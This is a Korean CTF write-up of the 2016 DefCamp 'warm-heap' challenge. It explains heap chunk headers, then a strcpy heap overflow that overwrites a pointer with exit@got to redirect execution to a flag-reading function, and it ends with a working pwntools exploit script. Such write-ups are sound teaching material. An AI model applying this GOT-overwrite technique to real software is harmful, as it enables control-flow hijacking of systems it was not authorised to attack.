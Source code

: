```yaml
---
title: "2016 DefCamp CTF warm-heap"
date: 2019-12-23
tags: [DefCamp]
categories: [Pwn]
---
```


Heap Chunk 공부하고자 간단한 Heap Overflow문제를 풀어봤다.

```c
v3 = malloc(16uLL);
```

![](https://user-images.githubusercontent.com/32904385/71335900-3ef14280-2588-11ea-91e8-90097356dda1.png)

16만큼 malloc 해주면 heap 영역에 이렇게 할당되는데 chunk 구조를 보면 64bit 바이너리니까 header에서  `prev_size`와 `size`는 각각 8바이트씩을 차지할거다. 빨간 부분은 `prev_size` , 노란부분은 `size`,  분홍부분은 `mem` 영역일 것이다. 

16만큼 동적할당 해줬으니 사이즈는 총 32일 것이다. 0x20이 아니라 0x21인 이유는 `prev_inuse`가 하위 1비트가 들어가기 때문이다. 현재 chunk가 사용중이므로 1로 설정되어있다. free되면 0이 된다.

```c
*v3 = 1;
```

![](https://user-images.githubusercontent.com/32904385/71335811-d73af780-2587-11ea-833d-e4f2e31fc256.png)

prev_size와 size를 제외하고 다음부터 우리가 할당해준 mem부분이다. 메모리에 1이라는 값을 저장해준다.

```c
*(v3 + 1) = malloc(8uLL);
```

![](https://user-images.githubusercontent.com/32904385/71336728-be344580-258b-11ea-8839-c8416c478361.png)

이 코드로 다음 chunk 주소가  malloc mem안에 들어가게 된다.

```c
v4 = malloc(16uLL);
*v4 = 2;
```

![](https://user-images.githubusercontent.com/32904385/71337150-a8c01b00-258d-11ea-8790-da59aff33a89.png)

이것도 그냥 16만큼 malloc해주고 값을 넣어줬다.

```c
*(v4 + 8) = malloc(8uLL);
```

![](https://user-images.githubusercontent.com/32904385/71337255-28e68080-258e-11ea-8300-a9dc345aa173.png)

이것도 다음 chunk 주소가 malloc mem에 들어가게 된다.

```c
fgets(&input, 4096, stdin);
strcpy(*(v3 + 1), &input);
fgets(&input, 4096, stdin);
strcpy(*(v4 + 8), &input);
exit(0);
```

`0x0000000001CCF090`이 input부분인데 strcpy로 *(v3+1) 에 복사해주고 있다. 여기서 40바이트를 넣고 이 뒤에 다음부터 Heap Oveflow내서 chunk 부분을 덮어쓸 수 있다.

```c
void __noreturn sub_400826()
{
  __int128 lineptr; // [rsp+0h] [rbp-20h]
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  lineptr = 0uLL;
  stream = fopen("flag", "r");
  getline(&lineptr, &lineptr + 1, stream);
  puts(lineptr);
  fflush(stdout);
  free(lineptr);
  _exit(1);
}
```

그래서 40바이트만큼 덮고 그 뒤에 함수의 exit@got주소를 넣고 flag를 읽어주는 함수로 바꿔주면 exit(0);가 됐을 때 flag를 읽어주는 함수가 실행된다.

> exploit.py

```python
from pwn import *

e = ELF('./exp100.bin')
p = process('./exp100.bin')

flag = 0x400826
payload = 'A'*40
payload += p64(e.got['exit'])
p.sendline(payload)
p.sendline(p32(flag))
p.interactive()
```



 